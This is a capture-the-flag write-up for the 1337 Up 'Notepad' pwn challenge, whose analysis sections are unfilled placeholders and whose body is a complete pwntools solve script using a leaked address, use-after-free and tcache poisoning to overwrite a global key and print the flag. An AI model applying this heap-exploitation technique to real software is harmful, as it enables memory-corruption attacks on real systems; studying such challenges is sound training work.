 # 1337 Up | Notepad - PWN (100)

Challenge involved getting a `.text` leak at the start of main. After that exploit the use-after-free vulnerability using tcache poisoning to modify the global variable `key` and read the flag.

## Initial Analysis
How to get the building blocks of ideas for exploitation

## Exploitation
How to exploit after initial analysis

## Solve
``` python
from pwn import *

BINARY = './notepad'
HOST = ''
GDB_SCRIPT = ''

def add_note(proc, index, data):
    proc.sendlineafter(b'> ', b'1')
    proc.sendlineafter(b'> ', index)
    proc.sendlineafter(b'> ', b'16')
    proc.sendlineafter(b'> ', data)

def del_note(proc, index):
    proc.sendlineafter(b'> ', b'4')
    proc.sendlineafter(b'> ', index)

def main():
    proc = get_process() # set is_remote = False for local testing
    
    # Use main() leak to calculate .text base
    proc.recvuntil(b'Here a gift: ')
    leak = proc.recvline().strip().decode()
    leak_address = int(leak, 16)
    main_address = 0x0010119a
    base_address = leak_address - main_address
    
    # Warm up tcache      
    add_note(proc, b'1', b'chunk1')
    add_note(proc, b'2', b'chunk2')
    del_note(proc, b'1')
    del_note(proc, b'2')
    
    # Use .text base to get key address
    key_addr = 0x0030204c + base_address
    payload = b''.join([
        b'A'*0x18,
        p64(0x21),
        p64(key_addr)
    ])
    
    # Exploit use-after-free by tcache poisoning
    proc.sendlineafter(b'> ', b'3') # edit note
    proc.sendlineafter(b'> ', b'1')
    proc.sendlineafter(b'> ', payload) # overwrite chunks
    
    # Modify key variable with 0xcafebabe
    add_note(proc, b'3', b'chunk2')
    add_note(proc, b'4', p64(0xcafebabe))
    
    # Print flag
    proc.sendlineafter(b'> ', b'5') # request secret note
    flag = proc.recvall().strip().decode()
    print(f'Flag: {flag}')

# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```